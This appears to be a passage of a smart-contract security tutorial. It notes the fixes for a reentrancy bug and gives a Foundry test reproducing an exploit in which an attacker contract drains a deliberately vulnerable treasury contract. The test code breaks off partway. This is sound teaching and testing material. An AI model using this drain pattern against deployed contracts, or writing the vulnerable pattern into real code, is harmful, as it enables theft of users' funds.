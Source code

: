 **Fixes applied:**

* CEI (update balance before transfer).
* `nonReentrant` modifier for extra guard.

---

##  Foundry Test (Exploit Reproduction)

`test/ExploitDormammu.t.sol`:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

import {Test} from "forge-std/Test.sol";
import {DormammuTreasuryVulnerable} from "../../src/Reentrancy-CEI/DormammuTreasuryVulnerable.sol";
import {DormammuTreasuryFixed} from "../../src/Reentrancy-CEI/DormammuTreasuryFixed.sol";
import {TimeStone} from "../../src/Reentrancy-CEI/TimeStone.sol";

contract ReentrancyDormammuTest is Test {
    DormammuTreasuryVulnerable treasury;
    DormammuTreasuryFixed fixedTreasury;
    TimeStone stone;
    TimeStone timeStoneFixed;

    address public Doctor_Strange = makeAddr("Doctor Strange");

    function setUp() public {
        // Deploy vulnerable and fixed contracts
        treasury = new DormammuTreasuryVulnerable();
        fixedTreasury = new DormammuTreasuryFixed();

        // Fund the Dormammu treasury (other citizens)
        vm.deal(address(this), 50 ether);
        // send 20 ETH to vulnerable treasury as "Alien citizen deposits"
        treasury.deposit{value: 20 ether}();
        fixedTreasury.deposit{value: 20 ether}();

        // deploy stone and fund it
        vm.prank(Doctor_Strange);
        stone = new TimeStone(address(treasury));
        vm.deal(address(Doctor_Strange), 5 ether);

        vm.prank(Doctor_Strange);
        timeStoneFixed = new TimeStone(address(fixedTreasury));
    }

    function test_Strange_Drains_Dormammu_With_TimeStone() public {
        // Check initial balances
        uint256 initialTreasury = address(treasury).balance;
        assertEq(initialTreasury, 20 ether);

        // Doctor Strange: Doctor Strange deposits 1 ETH and triggers reentrancy withdraw
        vm.prank(Doctor_Strange);
        stone.attack{value: 1 ether}();

        // After attack collect to track funds in This Contract (optional)
        vm.prank(Doctor_Strange);
        stone.collect();

        // Doctor Strange (via Time Stone) gains more than his initial 1 ETH
        // Dormammu Treasury should NOT have its full 20 ETH anymore
        uint256 remainingTreasury = address(treasury).balance;
```